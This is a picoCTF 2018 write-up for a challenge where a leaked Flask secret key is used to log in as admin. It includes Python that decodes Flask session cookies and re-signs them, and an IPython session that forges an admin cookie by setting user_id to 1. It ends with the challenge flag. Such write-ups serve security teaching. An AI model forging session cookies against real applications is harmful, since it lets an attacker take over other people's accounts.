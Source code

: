 # Problem
Nice! You found out they were sending the Secret_key: 73e1f2c96e364f0cc3371c31927ed156. Now, can you find a way to log in as admin? [http://2018shell1.picoctf.com:12261](http://2018shell1.picoctf.com:12261).

## Hints:
What can you do with a flask Secret_Key?

The database still reverts every 2 hours

## Solution:
This site is written in [flask](http://flask.pocoo.org/).

We know that the secret_key is ```73e1f2c96e364f0cc3371c31927ed156```.

We can login as 22/22 (for example), and decode the session cookie using this code (from [https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)):
```python
def decode_flask_cookie(secret_key, cookie_str):
    import hashlib
    from itsdangerous import URLSafeTimedSerializer
    from flask.sessions import TaggedJSONSerializer
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie_str)
```

The cookie I got:
```
.eJwlz0FqAzEMRuG7eJ2FxrIsK5cZfksyDYEWZpJV6d0z0AN88N5v2deR51e5v4533sr-iHIvytC-EYEh0gTuznXM8CUeWbf0uryNMbE4uaVKkpmgj2QX5GKdcGJzCaq6qHJmtgpHVTEykcUyZ1cYNdPE5baAdA_V0cut-Hms_fXzzO-rB8AMkdqgaYQWmm0EqtnI4RfHmFvLuNz7zON_YqPy9wGptEEp.Dq0BoQ.xE00yami7dOhYugT2VW7PZ4FkTo
```

Lets decode:
```python
Python 2.7.14 |Anaconda custom (64-bit)| (default, Feb 12 2018, 06:28:32) 
Type "copyright", "credits" or "license" for more information.

IPython 5.4.1 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: #!/usr/bin/env python
   ...: from flask.sessions import SecureCookieSessionInterface
   ...: from itsdangerous import URLSafeTimedSerializer
   ...: 
   ...: class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
   ...: ^I# Override method
   ...: ^I# Take secret_key instead of an instance of a Flask app
   ...: ^Idef get_signing_serializer(self, secret_key):
   ...: ^I^Iif not secret_key:
   ...: ^I^I^Ireturn None
   ...: ^I^Isigner_kwargs = dict(
   ...: ^I^I^Ikey_derivation=self.key_derivation,
   ...: ^I^I^Idigest_method=self.digest_method
   ...: ^I^I)
   ...: ^I^Ireturn URLSafeTimedSerializer(secret_key, salt=self.salt,
   ...: ^I^I                              serializer=self.serializer,
   ...: ^I^I                              signer_kwargs=signer_kwargs)
   ...: 
   ...: def decodeFlaskCookie(secret_key, cookieValue):
   ...: ^Isscsi = SimpleSecureCookieSessionInterface()
   ...: ^IsigningSerializer = sscsi.get_signing_serializer(secret_key)
   ...: ^Ireturn signingSerializer.loads(cookieValue)
   ...: 
   ...: # Keep in mind that flask uses unicode strings for the
   ...: # dictionary keys
   ...: def encodeFlaskCookie(secret_key, cookieDict):
   ...: ^Isscsi = SimpleSecureCookieSessionInterface()
   ...: ^IsigningSerializer = sscsi.get_signing_serializer(secret_key)
   ...: ^Ireturn signingSerializer.dumps(cookieDict)
   ...: 

In [2]: decodeFlaskCookie('73e1f2c96e364f0cc3371c31927ed156', '.eJwlz0FqAzEMRuG7eJ2FxrIsK5cZfksyDYEWZpJV6d0z0AN88N5v2deR51e5v4533sr-iHIvytC-EYEh0gTuznXM8CUeWbf0uryNMbE4uaVKkpmgj2QX5GKdcGJzCaq6qHJmtgpHVTEy
   ...: kcUyZ1cYNdPE5baAdA_V0cut-Hms_fXzzO-rB8AMkdqgaYQWmm0EqtnI4RfHmFvLuNz7zON_YqPy9wGptEEp.Dq0BoQ.xE00yami7dOhYugT2VW7PZ4FkTo')
Out[2]: 
{u'_fresh': True,
 u'_id': u'73a76100a3a5545accc328bdcf5cde21ec2fc488baf3e34e75e0995a68e3c5aef37bac039c5d027f023eee42aca27590955f35bb67a90497eae3c1da56cd7786',
 u'csrf_token': u'aaabd5524a7e90a4d7e48da2998e8c7eaa8b14ed',
 u'user_id': u'10'}
```

Now lets change the ```user_id``` to ```1``` (hoping this is admin) and try to encode:
```python
In [3]: c = decodeFlaskCookie('73e1f2c96e364f0cc3371c31927ed156', '.eJwlz0FqAzEMRuG7eJ2FxrIsK5cZfksyDYEWZpJV6d0z0AN88N5v2deR51e5v4533sr-iHIvytC-EYEh0gTuznXM8CUeWbf0uryNMbE4uaVKkpmgj2QX5GKdcGJzCaq6qHJmtgpH
   ...: VTEykcUyZ1cYNdPE5baAdA_V0cut-Hms_fXzzO-rB8AMkdqgaYQWmm0EqtnI4RfHmFvLuNz7zON_YqPy9wGptEEp.Dq0BoQ.xE00yami7dOhYugT2VW7PZ4FkTo')

In [4]: c['user_id']='1'

In [5]: encodeFlaskCookie('73e1f2c96e364f0cc3371c31927ed156', c)
Out[5]: '.eJwdz0FqAzEMRuGrFK-z8FiWZQVyhC56guG3JNNSaGEmWYXcvaYH-OC9Z9rnEednut6PR1zS_uXpmoQgbcsZBObKMDMqfbhNNo-yhZVptfeBSUE1hCOrMloPMkZMkgHLpMaei8xcKCJqgaEIa1bmSTxGE2iuKoHlNgc3c5He0iXZecz9_vsdP6sHwHDmUiGhGdUlancU1R7dFkcfWw1f7nHG8T_xTG9j0feP2y29Xn8B_EPY.Dq0HRQ.WcxYj1TBUjHowI78zBXsQHEIGS4'
```

Lets update the session cookie, and go to the Admin page.

![screenshot 1](./screenshot-1.png)
![screenshot 2](./screenshot-2.png)
![screenshot 3](./screenshot-3.png)

Flag: picoCTF{1_id_to_rule_them_all_8470d1c9}
